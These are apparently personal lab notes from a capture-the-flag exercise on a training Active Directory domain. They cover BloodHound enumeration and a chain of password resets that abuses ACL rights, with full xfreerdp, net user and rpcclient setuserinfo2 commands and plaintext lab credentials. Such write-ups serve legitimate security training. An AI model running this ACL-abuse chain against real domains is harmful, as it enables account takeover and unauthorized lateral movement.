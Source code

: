 BloodHound uses graph theory to model the relationships within an Active Directory environment. It ingests data about users, groups, computers, sessions, and ACLs (Access Control Lists) to create a graph that represents all possible attack paths.

More info about installation and execution [here](https://github.com/dirkjanm/BloodHound.py/tree/bloodhound-ce).

Since you have credentials, we can run `bloodhound` to get the Active Directory structure for this environment :

 `bloodhound-python -d thm.corp -u 'AUTOMATE' -p 'Passw0rd1' -ns MACHINE IP -c All`

You'll get 7 `json` files :

![[Screenshot from 2024-08-12 19-35-27.png]]

## neo4j

More info about [[Neo4j]].\

- Run neo4j:

	`neo4j console`
	
	![[Screenshot from 2024-08-12 20-09-36.png]]
- Browse http://localhost:7474.

	![[Screenshot from 2024-08-12 20-00-25.png]]
	Credentials: neo4j:neo4j

## Bloodhound execution

- Run Bloodhound.
	`bloodhound`
	
	![[Screenshot from 2024-08-12 20-20-45.png]]
	Credentials: neo4j:neo4j

- Click on  the **Upload data** button.
	![[Screenshot from 2024-08-12 20-35-09.png]]
	
- Select all the json files created previously and click Open.
	![[Screenshot from 2024-08-12 20-37-24.png]]
	![[Screenshot from 2024-08-13 20-17-31.png]]
- Once all the files have been imported click on Refresh.![[Screenshot from 2024-08-13 20-11-17.png]]

## Analyzing the BloodHound data

- In the `Analysis` section, you can find `Pre-Built Analytics Queries`.
- Run the `Find AS-REP Roastable Users (DontReqPreAuth)` Query.
	![[Screenshot from 2024-08-13 20-21-19.png]]
	There are 3 users that do not have `Kerberos pre-authentication` enabled.

### Transitive Object Control

Transitive Object Control are objects this user can gain control of by performing ACL-only-based attacks in Active Directory. It's represented as a number. In other words, the maximum it is the number of objects the user can gain control of without needing to pivot to any other system in the network, just by manipulating objects in the directory

- Select the node for `TABATHA_BRITT` and display all `Transitively Controllable Objects`.
	![[Screenshot from 2024-08-13 20-58-38.png]]
	![[Screenshot from 2024-08-13 21-31-00.png]]
	You have:
	`GenericAll` from `TABATHA_BRITT` to `SHAWMA_BRAY`.
	
	`ForceChangePassword` from `SHAWMA_BRAY` to `CRUZZ_HALL`.
	
	`GenericWrite` from `CRUZ_HALL` to `DARLA_WINTERS`.

	This means we have a chance to own all these users by resetting their passwords, let's break it down :
	- Use `TABATHA_BRITT` to reset the password of `SHAWNA_BRAY`.
	- then  use `SHAWNA_BRAY` to reset the password of `CRUZ_HALL`.
	- finally use `CRUZ_HALL` to reset the password of `DARLA_WINTERS`.

### Changing  and resetting passwords
In bloodhound, if you right click on one of the arrows that contains the `rights` you have on other users, you get a help section that contains techniques you could use to take advantage of those rights :

#### Changing `SHAWNA_BRAY's` password using `TABATHA_BRITT's` credentials

`xfreerdp /u:TABATHA_BRITT /p:'marlboro(1985)' /v:<MACHINE IP\> /dynamic-resolution`

Open a command cmd.exe an run the following to change the TABATHA_BRITT's password:

`net user SHAWNA_BRAY Password@4444 /domain`

Confirm that the changes were successful  choosing Execution rights->First degree RDP privileges.

![[Screenshot from 2024-08-15 20-18-54.png]]
#### SHAWNA_BRAY\@THM.CORP -> ForceChangePassword -> CRUZZ_HALL\@THM.CORP

The **ForceChangePassword** permission allows us (in this case SHAWNA_BRAY\@THM.CORP) to reset a user's password without knowing their current password. So this user can reset CRUZZ_HALL\@THM.CORP's password.

`rpcclient -U thm.corp/SHAWNA_BRAY%'Password@4444' <MACHINE IP>`

rpcclient $> `setuserinfo2 CRUZ_HALL 23 Password@4444`                           rpcclient $> `exit`   

Confirm that the changes were successful  choosing Execution rights->First degree RDP privileges.

![[Screenshot from 2024-08-15 20-43-32.png]]

#### CRUZZ_HALL\@THM.CORP\ -> ForceChangePassword -> DARLA_WINTERS\@THM.CORP

Same as above, this time CRUZZ_HALL\@THM.CORP can reset DARLA_WINTERS\@THM.CORP's password.

`rpcclient -U thm.corp/CRUZZ_HALL%'Password@4444' <MACHINE IP>`

rpcclient $> `setuserinfo2 DARLA_WINTERS 23 Password@4444`                       rpcclient $> `exit`  

Confirm that the changes were successful  choosing Execution rights->First degree RDP privileges.

![[Screenshot from 2024-08-18 12-49-59.png]]

**Next step:** [[Delegation]]

